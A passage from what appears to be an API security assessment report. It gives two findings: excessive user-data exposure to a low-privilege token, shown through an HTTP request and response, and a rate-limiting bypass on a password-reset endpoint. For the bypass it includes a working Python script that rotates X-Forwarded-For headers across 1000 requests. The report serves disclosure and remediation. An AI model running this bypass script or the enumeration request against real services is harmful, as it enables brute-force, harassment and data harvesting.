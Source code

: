 **Proof of Concept:**
```http
GET /api/v2/users?page=1&limit=100 HTTP/1.1
Host: api.company.com
Authorization: Bearer <low_privilege_token>

Response:
{
  "users": [
    {
      "id": 12345,
      "username": "jdoe",
      "email": "john.doe@email.com",
      "phone": "+1-555-0123",
      "internal_id": "EMP-2023-001",
      "created_at": "2023-01-15T10:30:00Z",
      "last_login": "2023-10-01T14:22:31Z"
    }
  ]
}
```

**Business Impact:**
- User enumeration for targeted attacks
- Email harvesting for phishing campaigns
- Privacy regulation violations
- Competitive intelligence exposure

## Medium Vulnerabilities (CVSS 4.0-6.9)

### API-M-001: Rate Limiting Bypass
**API Endpoint:** `/api/v1/password-reset`  
**CVSS Score:** 6.5 (Medium)  
**CWE:** CWE-799 - Improper Control of Interaction Frequency

**Vulnerability Details:**
Rate limiting can be bypassed using multiple techniques including header manipulation and distributed requests, enabling brute force and denial of service attacks.

**Bypass Techniques Tested:**
1. **X-Forwarded-For Header Manipulation**
2. **User-Agent Rotation**
3. **Distributed Source IPs** 
4. **Case Variation in HTTP Methods**

**Proof of Concept:**
```python
import requests
import time

def bypass_rate_limit():
    headers_list = [
        {"X-Forwarded-For": "192.168.1.1"},
        {"X-Forwarded-For": "10.0.0.1"},
        {"X-Forwarded-For": "172.16.0.1"}
    ]
    
    for i in range(1000):
        headers = headers_list[i % len(headers_list)]
        response = requests.post(
            "https://api.company.com/api/v1/password-reset",
            json={"email": "target@email.com"},
            headers=headers
        )
        print(f"Request {i}: {response.status_code}")
```